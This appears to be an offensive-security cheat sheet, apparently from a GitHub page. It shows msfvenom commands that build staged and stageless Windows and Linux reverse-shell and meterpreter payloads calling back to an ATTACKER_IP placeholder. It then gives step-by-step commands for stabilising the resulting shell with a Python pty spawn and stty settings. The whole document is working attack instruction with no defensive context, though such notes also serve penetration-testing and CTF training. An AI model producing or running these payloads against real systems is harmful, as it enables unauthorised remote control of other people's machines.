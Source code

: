 ```bash
# msfvenom generate reverse shell
msfvenom -p OS/ARCH/PAYLOAD OPTIONS
msfvenom --list payloads

# Stageless payload
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ATTACKER_IP LPORT=ATTACKER_PORT

# Staged payload
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=ATTACKER_IP LPORT=ATTACKER_PORT
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT
```

### shell stabilisation

**Python**

1.  Spawn a better featured bash shell; note that some targets may need the version of Python specified

2.  Get access to term commands (e.g. `clear`)

3.  Background the shell. Turn off our own terminal echo (which gives access to tab autocompletes, the arrow keys, and Ctrl + C) and foreground the shell

4. Change terminal tty size

5. If the shell dies, any input in your own terminal will not be visible. To fix this, type `reset` and press enter

```bash
# In reverse shell
# 1.
python -c 'import pty;pty.spawn("/bin/bash")'
# 2.
export TERM=xterm
# 3.
Ctrl + Z # to background the shell

# In Attack VM
stty raw -echo; fg
# 4.
# on another terminal, get rows and columns number
stty -a

# In reverse shell terminal
stty rows <number>
stty cols <number>

# 5. Close the reverse shell
reset
```

---
